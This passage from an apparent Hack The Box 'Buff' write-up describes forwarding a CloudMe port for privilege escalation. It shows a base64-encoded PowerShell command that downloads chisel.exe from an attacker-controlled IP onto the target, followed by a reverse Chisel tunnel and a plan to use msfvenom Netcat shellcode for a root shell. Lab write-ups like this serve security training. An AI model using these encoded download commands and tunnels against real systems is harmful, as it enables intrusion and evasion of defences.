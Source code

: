 I managed to find [an exploit](https://www.exploit-db.com/exploits/48389) for the CloudMe vulnerability, but the issue was that it was written in python. Python, being an interpreted language, is not really a language that lends itself well to compilation. To get around this issue, I decided to forward the port to my host machine using [Chisel](https://github.com/jpillora/chisel), my TCP tunnel of choice. In order to use it, I uploaded the Chisel binary to the remote machine, started up my Chisel server, and connected to it via the client:

```shell
┌─[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadchisel.cmd
IEX(New-Object System.Net.WebClient).downloadFile("http://10.10.14.2/chisel.exe","c:\xampp\htdocs\gym\upload\chisel.exe")
┌─[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadchisel.cmd | iconv -t UTF-16LE| base64 -w0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AYwBoAGkAcwBlAGwALgBlAHgAZQAiACwAIgBjADoAXAB4AGEAbQBwAHAAXABoAHQAZABvAGMAcwBcAGcAeQBtAFwAdQBwAGwAbwBhAGQAXABjAGgAaQBzAGUAbAAuAGUAeABlACIAKQAKAA==
┌─[matt@parrot]─[~/htb/buff]
└──╼$ 
```

```shell
C:\xampp\htdocs\gym\upload> powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AYwBoAGkAcwBlAGwALgBlAHgAZQAiACwAIgBjADoAXAB4AGEAbQBwAHAAXABoAHQAZABvAGMAcwBcAGcAeQBtAFwAdQBwAGwAbwBhAGQAXABjAGgAaQBzAGUAbAAuAGUAeABlACIAKQAKAA==
```

```shell
┌─[matt@parrot]─[~/htb/buff/evidence]
└──╼$ chisel server -p 8000 --reverse
2020/09/27 18:17:44 server: Reverse tunnelling enabled
2020/09/27 18:17:44 server: Fingerprint 18:ea:af:d8:e2:bb:83:95:07:91:6c:2b:f9:04:0a:1a
2020/09/27 18:17:44 server: Listening on 0.0.0.0:8000...
c:\xampp\htdocs\gym\upload>.\chisel.exe client 10.10.14.2:8000 R:8891:127.0.0.1:8888
.\chisel.exe client 10.10.14.2:8000 R:8891:127.0.0.1:8888
2020/09/27 19:21:03 client: Connecting to ws://10.10.14.2:8000
2020/09/27 19:21:03 client: Fingerprint 18:ea:af:d8:e2:bb:83:95:07:91:6c:2b:f9:04:0a:1a
2020/09/27 19:21:04 client: Connected (Latency 159.294ms)
```

From there, I verified that the tunneling worked by checking `netstat` on my host machine and verifying that port 8891 (the port I chose to use for my host machine) was listening:

```shell
┌──[matt@parrot]─[~/htb]
└──╼$ netstat -ano | grep 8891
tcp 0 0 0.0.0.0:8891 0.0.0.0:* LISTEN off (0.00/0/0)
┌─[matt@parrot]─[~/htb]
└──╼$ 
```

In addition to that, the POC exploit noted above required a bit of modification in order for it to actually produce the results I wanted. I used msfvenom to generate python code which would execute Netcat and (hopefully) get me a root shell.
